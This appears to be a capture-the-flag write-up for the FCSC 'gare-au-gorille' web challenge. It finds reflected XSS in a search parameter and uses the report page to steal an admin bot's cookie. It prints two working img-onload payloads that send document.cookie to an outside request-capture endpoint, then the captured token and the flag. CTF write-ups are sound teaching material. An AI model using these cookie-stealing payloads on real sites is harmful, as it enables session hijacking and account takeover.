 The parameter search appears to be vulnerable to XSS
we can indeed `<script>alert(1)</script>` it.
It also has a kind of pgSQL misconfiguration as a ; throws an error, but there doesn't seem to be a way to inject anything in the db.

We look at the other attack vector we have : the report page

It takes an url and apparently logs it somewhere for "review".
We can use probably use it to steal the admin's cookie
We set up an endpoint on requestbin to get our admin cookie

Then we forge our payload

`https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=<img onload=this.src='https://eoulvrfdli1718o.m.pipedream.net?c='+document.cookie src="https://github.com/favicon.ico"/>`

This works but returns an empty string as cookie. Maybe the URL encoding replaces the + with a space so the variable isnt appended ? Lets try with a no-concat syntax

`https://gare-au-gorille.france-cybersecurity-challenge.fr/report?url=/?search=<img onload=this.src=\`https://eoulvrfdli1718o.m.pipedream.net?c=${document.cookie}\` src="https://github.com/favicon.ico"/>`

Yields a result in our requestbin :

`token=O9Mv3sFaQD1UpQRLCXVOCzCi0dRbpz4Wy4kGPngZt36MZnR6xZpbHLQRWfDi6T45`

We try to access /flag with the browser's "edit headers" request to add the admin token instead of ours, the page displays the flag (but still no meme :()

FCSC{14b15680de4e305b89eaa2a07b137abf4e39b5773f39a4ea7155ca5387c6f59e}
